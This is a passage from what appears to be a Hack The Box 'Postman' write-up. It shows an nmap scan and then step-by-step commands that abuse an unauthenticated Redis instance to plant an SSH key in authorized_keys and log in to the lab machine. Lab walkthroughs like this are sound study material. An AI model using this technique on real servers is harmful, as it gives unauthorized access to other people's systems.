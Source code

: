 ```yaml
---
layout: post
title: Postman
category: HTB
tags: [HTB, Redis, Metasploit]
---
```


![alt text](https://raw.githubusercontent.com/dfirale/dfirale.github.io/master/assets/images/postman/card.PNG "Postman")

Starting with nmap we can see some valuable output.

**-p-** to scan all 65535 ports and **-sV** for standard service detection:

![alt text](https://raw.githubusercontent.com/dfirale/dfirale.github.io/master/assets/images/postman/nmap.png "Nmap")

We are most likely going to interact with SSH since the port is open. 💁‍♂️

I tried couple exploits for Webmin but apparently they are not working without valid credentials.

After poking Redis service for a while I came up to a great guide/cheatsheet for pentesting Redis: <https://book.hacktricks.xyz/pentesting/6379-pentesting-redis>

"Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache and message broker. Several times redis will be configured to be accessible anonymously. In this case you won't need to use any username and password." 

Sounds great! So let's abuse that and follow the guide:

Install redis-tools: `sudo apt-get install redis-tools`

To interact with Redis: `redis-cli -h <IP>`

1. Generate a ssh public-private key pair on your pc: `ssh-keygen -t rsa`

2. Write the public key to a file: `(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt`

3. Import the file into redis: `cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit`

4. Save the public key to the **authorized_keys** file on redis server:


![alt text](https://raw.githubusercontent.com/dfirale/dfirale.github.io/master/assets/images/postman/redis.png "Redis")


It works! We can ssh to the redis server with private key: `ssh -i id_rsa redis@10.10.10.160`


![alt text](https://raw.githubusercontent.com/dfirale/dfirale.github.io/master/assets/images/postman/ssh.png "SSH")
